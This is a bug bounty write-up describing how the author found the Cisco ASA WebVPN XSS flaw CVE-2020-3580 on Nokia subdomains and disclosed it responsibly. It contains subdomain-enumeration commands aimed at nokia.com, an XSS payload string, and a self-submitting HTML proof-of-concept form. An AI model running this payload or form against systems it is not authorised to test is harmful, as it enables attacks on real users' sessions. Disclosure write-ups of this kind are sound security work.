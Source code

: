 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **CVE-2020-3580**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

## 🕵️‍♂️ Reconnaissance:

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### Passive Reconnaissance

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### Subdomain Enumeration

I used tools like **Sublist3r**, **Amass**, and **Subfinder** to gather a large list of Nokia subdomains:

````
subfinder -d nokia.com -o nokia-subdomains.txt
amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems:

```
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
```
Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## Testing for CVE-2020-3580:
To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. The payload is:

```
'><svg/onload=alert('xss')>
```
### Steps to Reproduce:
```
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## ⚠️ CVE-2020-3580 on Nokia Subdomains:

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

## 📅 Disclosure Timelines:

- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.
